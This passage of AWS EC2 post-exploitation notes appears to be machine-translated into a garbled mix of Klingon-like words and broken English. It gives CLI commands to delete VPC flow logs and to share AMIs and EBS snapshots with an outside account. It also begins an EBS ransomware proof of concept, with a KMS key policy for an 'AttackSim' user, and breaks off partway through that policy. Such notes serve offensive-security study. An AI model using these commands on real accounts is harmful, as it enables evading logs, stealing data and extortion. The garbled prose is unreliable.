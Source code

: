 [**vItlhutlh chenmoH**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs) **laH**.

### Remove VPC flow logs
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### AMI laH

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### EBS Snapshot jImej

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### EBS Ransomware PoC

**Qa'Hom**: Ransomware demonstration S3 post-exploitation notes vItlhutlh. KMS RMS Ransomware Management Service jatlhpu'be'lu'chugh, AWS services encrypt easy to use to. 

**'opwI'** AWS account, KMS vItlhutlh customer managed key create. Example vItlhutlh, AWS manage key data, but realistic scenario malicious actor AWS' control vItlhutlh key data retain. Key policy change, AWS account Principal key use allow. Key policy vItlhutlh, account name 'AttackSim' 'ej policy rule allowing all access 'Outside Encryption' jatlhpu'.
```
{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:root"
},
"Action": "kms:*",
"Resource": "*"
},
{
"Sid": "Allow access for Key Administrators",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Create*",
"kms:Describe*",
"kms:Enable*",
"kms:List*",
"kms:Put*",
"kms:Update*",
"kms:Revoke*",
"kms:Disable*",
"kms:Get*",
"kms:Delete*",
"kms:TagResource",
"kms:UntagResource",
```